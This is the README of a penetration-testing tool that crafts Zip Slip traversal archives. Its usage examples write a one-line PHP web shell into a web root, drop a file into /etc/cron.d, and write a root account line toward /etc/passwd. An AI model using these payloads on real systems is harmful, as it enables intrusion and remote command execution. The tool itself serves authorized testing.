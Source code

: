# s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Create a basic test archive:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive with PHP shell content:**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar) 
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../`). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

